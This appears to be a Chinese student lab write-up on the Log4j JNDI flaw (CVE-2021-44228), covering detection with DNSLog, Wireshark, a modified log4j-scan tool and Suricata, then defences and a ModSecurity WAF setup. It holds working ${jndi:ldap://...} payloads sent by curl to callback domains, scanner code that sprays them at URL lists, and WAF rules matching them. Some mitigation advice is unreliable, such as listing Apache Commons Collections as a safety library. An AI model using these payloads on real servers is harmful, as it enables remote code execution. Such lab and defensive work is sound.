


- 请求返回 “ok”，表示服务端已接收 payload。
- 成功建立反向 shell 连接，验证了 Log4j 漏洞可被成功利用。


---

### 三. 漏洞利用检测

#### [方法一] 使用域名服务器
1. **注册临时域名**
   - 使用 `http://log.fendou.us:8080/dns/` 网站注册了一个临时域名 `chloris.check4safe.top`。
   - 注册结果在网站上显示，确认域名已成功创建。
   

2. **使用域名服务器抓包并进行流量分析**
  - 使用 `curl` 命令模拟攻击请求，测试 Log4j 漏洞：
    ```bash
    curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
    ```
  - 通过 `-vv` 参数查看详细的请求和响应信息，确保请求被正确发送并返回预期的结果。
- **抓包结果**：
  - 日志显示请求包含恶意 payload `${jndi:ldap://chloris.check4safe.top}` 请求被成功发送到目标服务器，并且返回了 HTTP/1.1 200 OK 的响应。
  

3. **检测结果**
  - 在 `log.fendou.us` 网站的 DNSLog 页面中，可以看到注册的子域名 `chloris.check4safe.top` 的查询记录。

  - 记录显示该域名被解析为 IP 地址 `219.141.176.11`，位置在北京，时间为 `2025-03-05 15:33:23`，验证了 Log4j 漏洞的存在。
  

#### [方法二] 使用抓包工具
1. **漏洞利用**
先在受害者主机上抓包，然后使用 Wireshark 分析抓到的数据包。
用攻击者主机构造攻击指令
```bash
curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
```

抓包已经保存到 ``/home/kali/workspace/ctf-games/fofapro/vulfocus/capture.pcap``

可以看到 ``HTTP`` 请求包中包含恶意的 ``payload`` ，用于触发 ``Log4j 漏洞``


---

#### [方法三] 使用interact.sh自动化检测

- 由于 ``log4j-scan`` 默认使用 interact.sh 作为 DNS 回调服务来检测 Log4j 漏洞。但是由于目前服务不可用，我无法连接到 interact.sh，我选择 ceye.io 公共 DNS 回调服务
- 从 `log4j-scan.py` 代码来看，原本的工具默认支持两种 DNS 回调服务：`interact.sh` 和 `dnslog.cn`。想要实现支持 `ceye.io`，需要对代码进行一些修改。以下是具体的**修改步骤**：

**1. 添加 `Ceye` 类**
在代码中添加一个新的类 `Ceye`，用于处理 `ceye.io` 的 DNS 回调逻辑。找到 `Dnslog` 和 `Interactsh` 类的定义部分，在其后面添加以下代码：

```python
class Ceye:
    def __init__(self, token, domain):
        self.token = token
        self.domain = domain
        self.session = requests.Session()
        self.session.proxies = proxies

    def pull_logs(self):
        url = f"http://api.ceye.io/v1/records?token={self.token}&type=dns"
        response = self.session.get(url, timeout=30)
        if response.status_code == 200:
            return response.json().get("data", [])
        return []
```

**2. 修改 `main()` 函数**
在 `main()` 函数中，找到 DNS 回调服务初始化的部分（大约在第 411 行），修改为支持 `ceye.io`。将以下代码：

```python
if args.dns_callback_provider == "interact.sh":
    dns_callback = Interactsh()
elif args.dns_callback_provider == "dnslog.cn":
    dns_callback = Dnslog()
else:
    raise ValueError("Invalid DNS Callback provider")
```

修改为：

```python
if args.dns_callback_provider == "interact.sh":
    dns_callback = Interactsh()
elif args.dns_callback_provider == "dnslog.cn":
    dns_callback = Dnslog()
elif args.dns_callback_provider == "ceye.io":
    # 需要提供 ceye.io 的 token 和域名
    ceye_token = "your_ceye_token"  # 替换为 ceye.io token
    ceye_domain = "your_ceye_domain"  # 替换为 ceye.io 域名
    dns_callback = Ceye(ceye_token, ceye_domain)
else:
    raise ValueError("Invalid DNS Callback provider")
```

**3. 修改 `parser.add_argument` 部分**
在 `parser.add_argument` 部分，找到 `--dns-callback-provider` 的定义（大约在第 150 行），将其修改为：

```python
parser.add_argument("--dns-callback-provider",
                    dest="dns_callback_provider",
                    help="DNS Callback provider (Options: dnslog.cn, interact.sh, ceye.io) - [Default: interact.sh].",
                    default="interact.sh",
                    action='store')
```

**4. 修改 `scan_url()` 函数**
在 `scan_url()` 函数中，确保生成的 payload 使用 `ceye.io` 的域名。找到以下代码：

```python
payload = '${jndi:ldap://%s.%s/%s}' % (parsed_url["host"], callback_host, random_string)
```

确保 `callback_host` 是 `ceye.io` 的域名。

**修改后的代码 :**
```python
class Ceye:
    def __init__(self, token, domain):
        self.token = token
        self.domain = domain
        self.session = requests.Session()
        self.session.proxies = proxies

    def pull_logs(self):
        url = f"http://api.ceye.io/v1/records?token={self.token}&type=dns"
        response = self.session.get(url, timeout=30)
        if response.status_code == 200:
            return response.json().get("data", [])
        return []

def main():
    urls = []
    if args.url:
        urls.append(args.url)
    if args.usedlist:
        with open(args.usedlist, "r") as f:
            for i in f.readlines():
                i = i.strip()
                if i == "" or i.startswith("#"):
                    continue
                urls.append(i)

    dns_callback_host = ""
    if args.custom_dns_callback_host:
        cprint(f"[•] Using custom DNS Callback host [{args.custom_dns_callback_host}]. No verification will be done after sending fuzz requests.")
        dns_callback_host = args.custom_dns_callback_host
    else:
        cprint(f"[•] Initiating DNS callback server ({args.dns_callback_provider}).")
        if args.dns_callback_provider == "interact.sh":
            dns_callback = Interactsh()
        elif args.dns_callback_provider == "dnslog.cn":
            dns_callback = Dnslog()
        elif args.dns_callback_provider == "ceye.io":
            ceye_token = "your_ceye_token"  # 替换为 ceye.io token
            ceye_domain = "your_ceye_domain"  # 替换为 ceye.io 域名
            dns_callback = Ceye(ceye_token, ceye_domain)
        else:
            raise ValueError("Invalid DNS Callback provider")
        dns_callback_host = dns_callback.domain

    cprint("[%] Checking for Log4j RCE CVE-2021-44228.", "magenta")
    for url in urls:
        cprint(f"[•] URL: {url}", "magenta")
        scan_url(url, dns_callback_host)

    if args.custom_dns_callback_host:
        cprint("[•] Payloads sent to all URLs. Custom DNS Callback host is provided, please check your logs to verify the existence of the vulnerability. Exiting.", "cyan")
        return

    cprint("[•] Payloads sent to all URLs. Waiting for DNS OOB callbacks.", "cyan")
    cprint("[•] Waiting...", "cyan")
    time.sleep(int(args.wait_time))
    records = dns_callback.pull_logs()
    if len(records) == 0:
        cprint("[•] Targets do not seem to be vulnerable.", "green")
    else:
        cprint("[!!!] Targets Affected", "yellow")
        for i in records:
            cprint(json.dumps(i), "yellow")
```

**5. 使用方法**
1. **注册 `ceye.io` 账户**：
   - 访问 [ceye.io](http://ceye.io/)，注册并获取 `token` 和 `domain`。

2. **运行工具**：
   - 使用以下命令运行工具，并指定 `ceye.io` 作为 DNS 回调服务：
     ```bash
     python3 log4j-scan.py -u http://192.168.20.6:13708/hello --dns-callback-provider ceye.io
     ```
     

3. **检查结果**：
   - 登录 `ceye.io`，也可以查看到 DNS 请求记录。
   


#### [方法四] 使用 Suricata 自动化检测

启动 suricata 检测容器
此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
```bash
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4
```


更新 suricata 规则，更新完成测试完规则之后会自动重启服务
```bash
docker exec -it suricata suricata-update -f
```


重启 suricata 容器以使规则生效
```bash
docker restart suricata
```

监视 suricata 日志
```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```


结果:
```bash
03/10/2025-11:17:54.889707  [**] [1:2034659:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55707 -> 192.168.20.6:24037
03/10/2025-11:17:54.889707  [**] [1:2034781:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55707 -> 192.168.20.6:24037
03/10/2025-11:18:12.474924  [**] [1:2034659:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55763 -> 192.168.20.6:24037
03/10/2025-11:18:12.474924  [**] [1:2034781:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M1 (Outbound) (CVE-2021-44228) [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.20.1:55763 -> 192.168.20.6:24037
03/10/2025-11:18:17.979744  [**] [1:2221034:1] SURICATA HTTP Request unrecognized authorization method [**] [Classification: Generic Protocol Command Decode] [Priority: 3] {TCP} 192.168.20.1:54505 -> 192.168.20.6:80
```
这条日志表明 Suricata 检测到了一个 Log4j RCE（远程代码执行）尝试，使用了特定的 TCP 绕过技术（M1）

---

### 四. 漏洞防御的思考

探究一下 Log4j JNDI 攻击的 **利用流程** 以及 **可行的防御措施** ：  

#### **📌 Log4j JNDI 攻击原理**
Log4j 2.x 存在 **JNDI 远程代码执行漏洞**（CVE-2021-44228），攻击流程如下：
1. **攻击者构造恶意日志输入**  
   - 通过 **HTTP 请求头（User-Agent、Referer 等）、URL 参数、JSON 输入** 等传递带有 JNDI 语句的日志信息，例如：
     ```plaintext
     ${jndi:ldap://malicious-server.com/evil}
     ```
2. **Log4j 解析 JNDI 语句**  
   - Log4j 发现 `${jndi:}` 变量后，会尝试解析其中的 LDAP/RMI 地址。
3. **远程 LDAP 服务器提供恶意类**  
   - 服务器连接 **攻击者的 LDAP 服务器**，获取恶意 Java 类文件路径。
4. **服务器加载恶意 Java 类并执行**  
   - 服务器 **反序列化并执行恶意代码**，导致远程代码执行（RCE）。

---

#### **🛡️ Log4j JNDI 攻击的五种防御措施**

##### **1️⃣ 使用 Web 应用防火墙（WAF）拦截**
📌 **原理**：  
- WAF 通过 **检测 HTTP 请求**，阻止带有 `jndi:ldap://` 的恶意输入。  

⚙ **实现方式**：
- 配置 WAF 规则，拦截匹配 JNDI 语法的请求：
  ```plaintext
  SecRule REQUEST_HEADERS "@rx (\${jndi:(ldap|rmi|dns):/})" "id:1001,phase:1,deny,status:403"
  ```
- 启用 **ModSecurity** 或云端 WAF（如 Cloudflare、AWS WAF）。

---

##### **2️⃣ 禁用 JNDI 查找**
📌 **原理**：  
- 直接 **禁用 Log4j 的 JNDI 查找功能**，防止它解析 `${jndi:}` 变量。  

⚙ **实现方式**：
- **方法 1（修改配置文件）**：  
  在 `log4j2.component.properties` 文件中添加：
  ```properties
  log4j2.formatMsgNoLookups=true
  ```
- **方法 2（启动参数）**：  
  ```bash
  -Dlog4j2.formatMsgNoLookups=true
  ```
- **方法 3（环境变量）**：
  ```bash
  export LOG4J_FORMAT_MSG_NO_LOOKUPS=true
  ```

---

##### **3️⃣ 立即修复 Log4j**
📌 **原理**：  
- 通过 **升级 Log4j 到安全版本**，彻底移除漏洞。

⚙ **实现方式**：
- **升级到安全版本**（`2.17.0+`）：  
  ```bash
  mvn dependency:tree | grep log4j
  mvn versions:use-latest-versions
  mvn clean install
  ```
- **移除 `JndiLookup.class`**（临时方案）：
  ```bash
  zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
  ```

---

##### **4️⃣ 禁用远程代码库**
📌 **原理**：  
- 服务器默认 **不应允许远程类加载**，防止攻击者注入恶意代码。

⚙ **实现方式**：
- **方法 1（Java 启动参数）**：
  ```bash
  -Dcom.sun.jndi.ldap.object.trustURLCodebase=false
  ```
- **方法 2（修改 Java 安全策略）**：
  在 `java.security` 文件中添加：
  ```properties
  jdk.jndi.object.factoriesFilter=!(com.sun.jndi.ldap.object.trustURLCodebase)
  ```

---

##### **5️⃣ 禁用 Java 反序列化**
📌 **原理**：  
- 反序列化攻击是远程代码执行的主要方式，禁用不必要的反序列化可减少风险。

⚙ **实现方式**：
- **方法 1（JVM 限制反序列化）**：
  ```bash
  -Djava.security.manager
  ```
- **方法 2（安全库）**：
  - 使用 **Apache Commons Collections** 或 **GadgetInspector** 进行安全检查。
- **方法 3（使用安全的反序列化方式）**：
  - 使用 `ObjectInputStream` 时，白名单允许的类：
    ```java
    ObjectInputStream in = new ObjectInputStream(inputStream) {
        @Override
        protected Class<?> resolveClass(ObjectStreamClass desc)
            throws IOException, ClassNotFoundException {
            if (!allowedClasses.contains(desc.getName())) {
                throw new InvalidClassException("Unauthorized deserialization attempt");
            }
            return super.resolveClass(desc);
        }
    };
    ```

---

#### **📌 结论**
- **Log4j JNDI 攻击利用远程代码加载**，通过 **LDAP/RMI 远程注入恶意 Java 类**，导致 RCE。
- **五种关键防御措施**：
  1. **WAF 拦截** 恶意 JNDI 请求。
  2. **禁用 JNDI 查找**，避免解析恶意字符串。
  3. **升级 Log4j**，彻底修复漏洞。
  4. **禁用远程代码库**，防止恶意类加载。
  5. **禁用 Java 反序列化**，减少 RCE 风险。

---

### 五. 漏洞缓解

#### 第一种方法: 打造Web应用防火墙（WAF）来缓解Log4j漏洞

##### [1] 实验目标
- 本次实验的主要目标是搭建并配置 ModSecurity Web 应用防火墙（WAF），以防御 Log4j 漏洞攻击。通过实验，掌握以下内容：
   - ModSecurity 的安装与配置。
   - OWASP 核心规则集（CRS）的使用。
   - 针对 Log4j 漏洞的自定义规则配置。
   - 通过反向代理测试 WAF 的拦截效果。
   - 解决实验过程中遇到的常见问题。

---

##### [2] 实验具体流程

1. **安装ModSecurity**
   ModSecurity 是一个开源的 Web 应用防火墙（WAF）模块，支持 Apache、Nginx 等 Web 服务器。它通过检测和拦截恶意请求来保护 Web 应用程序。

2. **安装Apache和ModSecurity**
   ```bash
   sudo apt update
   sudo apt install apache2 libapache2-mod-security2
   ```
   - apache2 是 Apache HTTP 服务器。
   - libapache2-mod-security2 是 ModSecurity 的 Apache 模块。
   

3. **配置ModSecurity**
(1) 备份默认配置文件：
   ```bash
   sudo cp /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
   ```
   
   - 默认情况下，ModSecurity 提供了一个推荐的配置文件 modsecurity.conf-recommended。
   - 复制该文件为 modsecurity.conf，以便进行自定义配置。

(2) 编辑配置文件：
   ```bash
   sudo vim /etc/modsecurity/modsecurity.conf
   ```
   将`SecRuleEngine`设置为`On`：
   ```bash
   SecRuleEngine On
   ```
   SecRuleEngine 控制 ModSecurity 的规则引擎状态,有以下三种状态:
   - Off：完全禁用规则引擎。
   - DetectionOnly：启用规则引擎，但仅用于检测，不会拦截恶意请求。
   - On：启用规则引擎，检测并拦截恶意请求。
   
   

(3) 重启Apache：
   ```bash
   sudo systemctl restart apache2
   ```
   Apache 在启动时会加载 ModSecurity 模块及其配置文件。
   

---

##### [3] 使用OWASP核心规则集（CRS）

- OWASP CRS提供了一套规则，用于防御常见Web攻击。

(1) 下载OWASP CRS
```bash
sudo apt install modsecurity-crs
```
OWASP CRS 是一组预定义的规则，覆盖了多种 Web 攻击类型。


(2) 配置OWASP CRS
1. 将规则集链接到ModSecurity：
   ```bash
   sudo ln -s /usr/share/modsecurity-crs/ /etc/apache2/modsecurity-crs
   ```
    
   - 创建符号链接是为了让 ModSecurity 能够方便地访问和加载 OWASP CRS 提供的规则文件。
2. 在ModSecurity配置中加载规则集：
   ```bash
   sudo vim /etc/apache2/mods-enabled/security2.conf
   ```
   添加以下内容：
   ```bash
   IncludeOptional /etc/apache2/modsecurity-crs/*.conf
   IncludeOptional /etc/apache2/modsecurity-crs/rules/*.conf
   ```
   这样配置后,IncludeOptional 指令告诉 Apache 加载指定路径下的所有 .conf 文件。加载 /etc/apache2/modsecurity-crs/ 目录下的所有主配置文件。加载该目录下 rules/ 子目录中的所有规则文件
   

3. 重启Apache：
   ```bash
   sudo systemctl restart apache2
   ```
   ModSecurity 会在每次请求时应用这些规则，检测并拦截恶意流量。

---

##### [4] 自定义Log4j漏洞规则配置

- 为了防御 Log4j 漏洞攻击，需要添加针对 jndi: 的自定义规则。

(1) 添加自定义规则
1. 创建自定义规则文件：
   ```bash
   sudo vim /etc/apache2/modsecurity-crs/rules/REQUEST-900-LOG4J.conf
   ```

2. 添加以下规则：
   ```bash
   SecRule ARGS|ARGS_NAMES|REQUEST_HEADERS|!REQUEST_HEADERS:Referer "@contains jndi:" \
       "id:1001,phase:2,log,deny,status:403,msg:'Potential Log4j Exploit Attempt'"
   ```
   | 参数名称       | 说明                     |
   |:---------------|:-------------------------|
   | SecRule        | ModSecurity 的核心指令，用于定义规则 |
   | ARGS/ARGS_NAMES/REQUEST_HEADERS | 检测请求参数、请求头 |
   | @contains jndi: | 匹配包含 jndi: 的内容 |
   | id:1001        | 规则的唯一标识符         |
   | phase:2        | 在请求处理的第二阶段（请求体解析后）执行规则 |
   | log            | 记录日志                 |
   | deny           | 拒绝请求                 |
   | status:403     | 返回 HTTP 403 Forbidden 响应 |
   | msg            | 日志消息                 |

   

3. 重启Apache：
   ```bash
   sudo systemctl restart apache2
   ```

---

##### [5] 监控和日志分析

- 启用ModSecurity的日志功能，记录所有拦截的请求，便于后续分析。

(1) 配置日志

1. 编辑ModSecurity配置文件：
   ```bash
   sudo vim /etc/modsecurity/modsecurity.conf
   ```

2. 确保日志路径正确：
   ```bash
   SecAuditLog /var/log/apache2/modsec_audit.log
   ```
   - SecAuditLog 指令用于指定 ModSecurity 审计日志的存储路径。
   - /var/log/apache2/modsec_audit.log 是默认的日志文件路径，记录所有拦截的请求及其详细信息。
3. 重启Apache：
   ```bash
   sudo systemctl restart apache2
   ```

---

##### [6] 配置 Apache 监听 `81` 端口

编辑 Apache 的配置文件：
```bash
sudo vim /etc/apache2/ports.conf
```
将 `Listen 80` 改为 `Listen 81`。

编辑虚拟主机配置文件：
```bash
sudo vim /etc/apache2/sites-available/000-default.conf
```
将 `<VirtualHost *:80>` 改为 `<VirtualHost *:81>`。

重启 Apache：
```bash
sudo systemctl restart apache2
```

---

##### [7] **配置反向代理**
启用 Apache 的反向代理模块：
```bash
sudo a2enmod proxy
sudo a2enmod proxy_http
```
- a2enmod 命令用于启用 Apache 模块。
proxy 和 proxy_http 模块用于实现反向代理功能。
- 编辑虚拟主机配置文件：
```bash
sudo vim /etc/apache2/sites-available/000-default.conf
```
在 `<VirtualHost *:81>` 块中添加以下内容：
```bash
<VirtualHost *:81>
    ProxyPreserveHost On
    ProxyPass / http://127.0.0.1:23509/
    ProxyPassReverse / http://127.0.0.1:23509/
</VirtualHost>
```


重启 Apache：
```bash
sudo systemctl restart apache2
```
- Apache 将开始监听 81 端口，并将所有请求通过反向代理转发到 23509 端口。


- **目前的拓扑图:**
```bash
+-------------------+       +-------------------+       +-------------------+
|      Client       | ----> |     WAF (Apache   | ----> |   Target Server   |
|    (curl 请求)    |       |   + ModSecurity)  |       | (Log4j 测试环境) |
+-------------------+       +-------------------+       +-------------------+
        |                           |                           |
        | 1. 发送请求到 81        | 2. iptables 重定向到 23509    | 3. 处理请求
        | ------------------------> | ------------------------> |
        |                           |                           |
        |                           | 4. 拦截恶意请求             |
        |                           | (返回 403 Forbidden)       |
        | <------------------------ |                           |
        |                           |                           |
        |                           | 5. 记录日志                |
        |                           | (modsec_audit.log)         |
```

---

##### [8] 测试 WAF 是否拦截恶意请求
运行以下命令测试 WAF 是否拦截包含 `jndi:` 的请求：
```bash
curl -X POST http://192.168.20.6:81/ -d "param1=jndi:ldap://chloris.check4safe.top/exploit"
```
- 通过 curl 命令向 81 端口发送一个包含 jndi: 的恶意请求。
- 如果 WAF 配置正确，应该返回 403 Forbidden，表示请求被拦截。
- 如果请求被拦截，ModSecurity 会在日志文件中记录详细的请求信息。


---

##### [9] 现在的情况以及存在的问题
- 直接 `curl` `23509` 端口可以测试 Log4j 漏洞，但无法测试 WAF 的效果。
- 通过反向代理的方式，可以让请求经过 Apache 和 ModSecurity，从而测试 WAF 是否能够拦截恶意请求。
- 使用 `curl` 向 `81` 端口发送请求，验证 WAF 是否生效。
- 通过以上步骤，我在Kali Linux上搭建一个基础的WAF，缓解Log4j等漏洞。定期更新规则集和监控日志是确保WAF持续有效的关键。

**为什么需要经过 Apache？**
1. **WAF 的作用**：WAF（Web 应用防火墙）的目的是检测并拦截恶意请求。如果请求直接到达 Log4j 测试环境，WAF 就无法发挥作用。
2. **测试 WAF 的效果**：需要验证 WAF 是否能够正确拦截包含 `jndi:` 的恶意请求。如果请求不经过 WAF，就无法测试 WAF 的效果。
WAF（ModSecurity）全部设在了 81 端口：Apache 监听 81 端口，并通过 ModSecurity 检测所有到达该端口的请求。

**但是如果直接 `curl` `23509` 端口 :**
- 请求会直接到达 Log4j 测试环境。
- WAF 不会检测请求，因此即使请求包含 `jndi:`，也不会被拦截。
- 无法验证 WAF 是否生效。

---

##### [10] 改进

1. **查看当前 iptables 规则**
运行以下命令，查看当前的 iptables 规则：
```bash
sudo iptables -t nat -L -n -v
```

2. **确保规则正确**
检查是否有以下规则：
   ```bash
   Chain PREROUTING (policy ACCEPT 0 packets, 0 bytes)
   pkts bytes target     prot opt in     out     source               destination         
      0     0 REDIRECT   tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:8080 redir ports 81
   ```
   接着重新添加规则：
   ```bash
   sudo iptables -t nat -A PREROUTING -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```

3. **保存 iptables 规则**
   确保规则在重启后仍然生效：
   ```bash
   sudo iptables-save | sudo tee /etc/iptables/rules.v4
   ```

4. **检查 Apache 反向代理配置**
   打开 Apache 的虚拟主机配置文件：
   ```bash
   sudo vim /etc/apache2/sites-available/000-default.conf
   ```
   确保配置如下：
   ```bash
   <VirtualHost *:81>
       ProxyPreserveHost On
       ProxyPass / http://127.0.0.1:8080/
       ProxyPassReverse / http://127.0.0.1:8080/
   </VirtualHost>
   ```
   保存并退出编辑器。

5. **检查 Target Server 监听地址**

   修改 Target Server 也就是log4j服务的dockerfile配置文件，使其仅监听 `127.0.0.1:8080`。
   - 例如，如果 Target Server 是一个 Java 应用，可以在启动命令中指定绑定地址：
     ```bash
     java -jar demo.jar --server.address=127.0.0.1 --server.port=8080
     ```
     
   我在应用程序中设置了 ``server.address=127.0.0.1``，在 Docker 容器中，``127.0.0.1`` 指的是容器内部的回环接口，而不是宿主机的回环接口。因此，即使容器的 8080 端口映射到了宿主机的 8080 端口，外部请求也无法通过宿主机的 IP 地址和端口访问到容器中的应用程序，因为应用程序只监听容器内部的 ``127.0.0.1``, 如果希望外部能够通过宿主机的 IP 地址和端口访问容器中的应用程序，需要将应用程序的监听地址设置为 ``0.0.0.0``
   - 重启docker 容器
   

   确保 Target Server 不再监听外部地址（如 `0.0.0.0:8080`）。

6. **测试配置**
   运行以下命令，测试 iptables 重定向是否生效：
   ```bash
   curl http://<Target-IP>:8080/
   ```
   - 如果配置正确，流量会被重定向到 `81` 端口，并经过 WAF。

   检查 Apache 日志，确认请求是否被正确处理：
   ```bash
   tail -f /var/log/apache2/access.log
   ```

---

##### [11] 总结一下当前进度

1. **核心问题**
- iptables 规则未生效，导致流量绕过 WAF。
- Apache 反向代理配置可能存在问题，导致请求未正确转发。

2. **解决步骤**
   (1) **检查并修复 iptables 规则**：
      - 确保所有到达 `8080` 端口的流量被重定向到 `81` 端口。
   
   (2) **检查 Apache 反向代理配置**：
   - 确保 Apache 监听 `81` 端口，并将请求转发到 `127.0.0.1:8080`。
   
   (3) **检查 Target Server 监听地址**：
   - 确保 Target Server 仅监听 `127.0.0.1:8080`，避免外部直接访问。

3. **最终效果**
- 客户端访问 `http://<Target-IP>:8080` 时，流量会被重定向到 WAF 的 `81` 端口。
- WAF 检测请求后，合法请求会被转发到 Target Server，恶意请求会被拦截。

从 `iptables` 配置来看，成功添加了以下规则：

```bash
-A PREROUTING -p tcp -m tcp --dport 8080 -j REDIRECT --to-ports 81
```

将所有到达 `8080` 端口的 TCP 流量重定向到 `81` 端口。理论上，这些规则应该生效，但我发现 `curl` 访问 `8080` 端口时仍然可以成功访问，而 `81` 端口被 WAF 拦截。这表明 **iptables 规则可能没有完全生效**，或者 **流量绕过了 iptables 规则**。

---

##### [12] 出现新问题

正如上面所写 , 这时iptables规则尚未生效

1. **分析可能原因 : 流量未经过 PREROUTING 链**：
   - 如果流量是从本机发出的（例如 `curl http://127.0.0.1:8080`），它不会经过 `PREROUTING` 链，而是直接进入 `OUTPUT` 链。
   - `PREROUTING` 链只对从外部进入的流量生效。

2. **解决方案**
   (1) **确保 iptables 规则生效**
      检查流量是否经过 PREROUTING 链
      - 如果从本机测试（例如 `curl http://127.0.0.1:8080`），流量不会经过 `PREROUTING` 链。
